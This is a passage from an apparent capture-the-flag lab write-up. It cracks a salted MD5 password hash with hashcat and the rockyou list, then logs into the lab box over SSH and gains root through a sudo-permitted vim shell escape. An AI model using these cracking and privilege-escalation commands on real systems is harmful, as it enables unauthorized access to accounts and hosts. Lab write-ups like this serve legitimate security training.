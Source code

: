  - Because of the hash length and because it's a Linux host, we mostly likely have MD5 Hash. Since there is a Salt as well, it's most likely one of these:
```text
[+]  md5($salt.$pass)
[+]  md5($pass.$salt)
[+]  md5($salt.$pass.$salt)
[+]  md5($salt.$pass.$username)
```
 - It's possible that it's not one of these, but we should try simplest first since it's most likely.

 - Searching example Hashes for Hashcat we can see the following at the top as they are very common:
```text
0 	MD5 	8743b52063cd84097a65d1633f5c74f5
10 	md5($pass.$salt) 	01dfae6e5d4d90d9892622325959afbe:7050461
20 	md5($salt.$pass) 	f0fda58630310a6dd91a7d8f0a4ceda2:4225637426 
```
 - We should try these two first. Remember from the text file we extracted before that the password of `mitch` is supposable very weak, so it should be easy to crack, rockyou should find it.

 - After some trial and error, we find the hash is of type `md5($salt.$pass)`. <br>Hash = `0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2`

 - Hashcat Command:
```text
.\hashcat64.exe -m 20 -a 0 -O .\toCrack\userHash.txt .\passwordLists\rockyou.txt
```

 - Hashcat output:
```text
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
```
 - Meaning the password for `mitch` is `secret`.

#### SSH & Privilege Escalation
 - Now that we have a valid user, we can attempt to SSH to the box.
```bash
ssh mitch@TARGET_IP -p 2222
```

 - Nice, the login worked and we now have a basic shell. But we don't have root yet.

 - Let's see what we have permission to run as root:
```text
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

 - This is perfect, we can use [GTFOBins](https://gtfobins.github.io) to search for  `vim` and attempt to get root.

 - From GTFOBins let's try the following:
```bash
sudo vim -c ':!/bin/bash'
```
 - Perfect, we are now root. GG.
